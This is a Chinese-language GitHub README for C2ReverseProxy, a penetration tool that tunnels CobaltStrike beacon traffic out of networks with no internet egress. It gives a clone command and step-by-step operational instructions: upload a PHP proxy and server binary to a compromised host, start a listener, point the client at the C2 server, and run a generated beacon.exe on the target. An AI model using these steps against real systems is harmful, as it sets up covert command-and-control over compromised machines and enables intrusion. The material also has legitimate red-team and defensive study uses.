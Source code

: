 # C2ReverseProxy

ReverseProxy C2 - 在不出网的情况下使cs上线

# Description

在渗透过程中遇到不出网的环境时，可使用该工具建立反向代理通道，使CobaltStrike生成的beacon可以回弹到CobaltStrike服务器。

# Install

```
git clone https://github.com/Daybr4ak/DReverseProxy.git
```

# Usage

```markdown
该文件分为3个部分：
1、C2script  
2、C2ReverseClint
3、C2ReverseServer

使用步骤：
1、将C2script目录下的对应文件，如proxy.php 以及C2ReverseServer上传到目标服务器。
2、使用C2ReverseServer建立监听端口：
./C2ReverseServer 8888 (默认为8000)
3、修改C2script目录下对应文件的PORT，与C2ReverseServer监听的端口一致。
4、本地或C2服务器上运行C2ReverseClint工具
./C2ReverseClint --addr C2IP:C2ListenerPort --target http://example.com/proxy.php (传送到目标服务器上的proxy.php路径)
5、使用CobaltStrike建立本地Listener(127.0.0.1 8888)端口与C2ReverseServer建立的端口对应
6、使用建立的Listner生成可执行文件beacon.exe传至目标服务器运行
7、可以看到CobaltStrike上线。
```

